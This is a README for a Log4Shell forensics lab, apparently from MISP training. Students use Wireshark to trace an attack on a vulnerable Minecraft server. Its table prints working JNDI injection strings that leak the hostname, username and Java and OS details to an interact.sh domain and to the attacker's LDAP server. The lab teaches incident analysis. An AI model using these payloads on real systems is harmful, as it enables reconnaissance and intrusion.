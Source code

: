 # MISP Log4shell lab
## Actors
* `172.31.84.208`: Minecraft Server [v1.18](https://launcher.mojang.com/v1/objects/3cf24a8694aca6267883b17d934efacc5e44440d/server.jar), vulnerable to [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)
* `178.249.193.69`: Player using official Minecraft client
* `18.212.74.161`: attacker machine using a custom python script to connect to Minecraft Server. Also hosts an evil LDAP server, HTTP server, and UDP reverse shell listener
* `*.interact.sh`: used by the attacker for initial DNS probing.

## Playbook
### Exercise 1: Identifying the external actors
Warm-up exercise to get the students to open Wireshark and start familiarizing themselves with the capture file.

A good start can be opening Wireshark capture statistics:
* _`Statistics`_ -> _`IPv4 Statistics`_ -> _`All Addresses`_

Wireshark filter to isolate traffic betweehn two IPs (Minecraft Server <-> Attacker):
* `ip.addr == 172.31.84.208 && ip.addr == 18.212.74.161`

Wireshark filter to show failed DNS requests, common practice for C2 beaconing:
* `dns.flags.rcode != 0`

It will show the distinct IPv4 addresses, sorting by packet count the top 3 is the ones we are interested in:
* **172.31.84.208 (private)**: Minecraft Server (known)
* **178.249.193.69 (LU)**: Player
* **18.212.74.161 (US)**: Attacker


### Exercise 2: In-depth analysis
* Use Wireshark packet search to find "jndi" string in the packets.

**Recon & Exifiltration**
| Timestamp            | Packet No | Actor            | Description                                                                   | Payload                                                                                                                 |
| -------------------- | --------- | ---------------- | ----------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------- |
| 1647007780.198573000 | 5         | Player           | legit user connects to Minecraft Server and plays normally (background noise) | -                                                                                                                       |
| 1647007801.266331000 | 1540      | Attacker         | connects to Minecraft Server                                                  | -                                                                                                                       |
| 1647007803.289267000 | 2488      | Attacker         | sends chat that triggers DNS probe to `*.interact.sh`                         | `${jndi:dns://hostname-${hostName}.c8nfads2vtc0000srss0grk4fxryyyyyr.interact.sh}`                                      |
| 1647007803.317513000 | 2496      | Minecraft Server | leaks the Minecraft Server hostname and it's internal IP to the attacker      | _DNS	142	Standard query 0x7f95 AAAA `hostname-ip-172-31-84-208.c8nfads2vtc0000srss0grk4fxryyyyyr.interact.sh` OPT_      |
| 1647007815.289139000 | 3376      | Attacker         | sends another chat with JNDI payload (DNS)                                    | `${jndi:dns://user-${env:USER}.c8nfads2vtc0000srss0grk4fxryyyyyr.interact.sh}`                                          |
| 1647007815.301738000 | 3378      | Minecraft Server | leaks the Minecraft Server OS username                                        | _DNS	128	Standard query 0x0304 AAAA `user-ubuntu.c8nfads2vtc0000srss0grk4fxryyyyyr.interact.sh` OPT_                    |
| 1647007817.289185000 | 3615      | Attacker         | sends another chat with JNDI DNS payload (DNS)                                | `${jndi:dns://version-${sys:java.version}.c8nfads2vtc0000srss0grk4fxryyyyyr.interact.sh}`                               |
| 1647007817.292140000 | 3619      | Minecraft Server | leaks the Minecraft Server Java version                                       | _DNS	131	Standard query 0x5a3d AAAA `version-17.0.2.c8nfads2vtc0000srss0grk4fxryyyyyr.interact.sh` OPT_                 |
| 1647007819.291165000 | 3787      | Attacker         | sends another chat with JNDI DNS payload (LDAP)                               | `${jndi:ldap://18.212.74.161/${java:version}}`                                                                          |
| 1647007819.361345000 | 3798      | Minecraft Server | leaks the Minecraft Server Java version                                       | _LDAP	153	searchRequest(2) `"Java version 17.0.2"` baseObject_                                                          |
| 1647007821.288549000 | 4038      | Attacker         | sends another chat with JNDI DNS payload (LDAP)                               | `${jndi:ldap://18.212.74.161/${java:os}}`                                                                               |
| 1647007821.319408000 | 4049      | Minecraft Server | leaks the Minecraft Server OS version                                         | _LDAP	179	searchRequest(2) `"Linux 5.11.0-1022-aws, architecture: amd64-64"` baseObject_                                |
| 1647007823.289390000 | 4257      | Attacker         | sends another chat with JNDI DNS payload (LDAP)                               | `${jndi:ldap://18.212.74.161/${java:vm}}`                                                                               |
| 1647007823.321192000 | 4266      | Minecraft Server | leaks the Minecraft Server Java VM version                                    | _LDAP	211	searchRequest(2) `"OpenJDK 64-Bit Server VM (build 17.0.2 8-Ubuntu-120.04, mixed mode, sharing)"` baseObject_ |